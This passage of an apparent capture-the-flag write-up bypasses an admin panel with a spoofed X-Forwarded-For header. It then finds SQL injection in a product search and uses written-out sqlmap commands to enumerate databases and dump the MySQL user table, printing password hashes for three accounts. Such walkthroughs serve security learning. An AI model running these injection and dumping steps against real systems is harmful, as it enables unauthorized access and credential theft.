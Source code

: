 ![bypassproxy](https://user-images.githubusercontent.com/16364370/79082157-9d862c00-7cf1-11ea-805d-4a2d13e0e174.png)

Now I add into burp suite math and replace the X-Forwarded-For, so burp can add that automatically to us.

![match_and_replace](https://user-images.githubusercontent.com/16364370/79082159-9fe88600-7cf1-11ea-8a40-84b97f10c7a7.png)

Inside the admin app I can add, search, update, create products. I send each request on burp and try to find any vuln on the send parameters. I found out that search products is vulnerable to sql injection. After trying a sleep command. My request took long to respond back. 

![vulnpoint](https://user-images.githubusercontent.com/16364370/79082158-9eb75900-7cf1-11ea-9b39-96883dbb1bb4.png)

I copy the request to a file and then update the parameter to be `productName=*` . And then give it to sqlmap to extract info for us.  

First I get all the databases with `sqlmap -r sqlinjection.req --dbs --batch` 
```
[*] information_schema
[*] mysql
[*] warehouse
```
After get all mysql tables with `sqlmap -r sqlinjection -D mysql --tables --batch`
```
Database: mysql
[31 tables]
+---------------------------+
| db                        |
| event                     |
| user                      |
| column_stats              |
| columns_priv              |
| func                      |
| general_log               |
| global_priv               |
| gtid_slave_pos            |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| index_stats               |
| innodb_index_stats        |
| innodb_table_stats        |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| roles_mapping             |
| servers                   |
| slow_log                  |
| table_stats               |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| transaction_registry      |

```
After get the content of user row `sqlmap -r sqlinjection.req -D mysql -T user --dump`
```
root: 0A4A5CAD344718DC418035A1F4D292BA603134D8
manager: CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
hector : 0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
```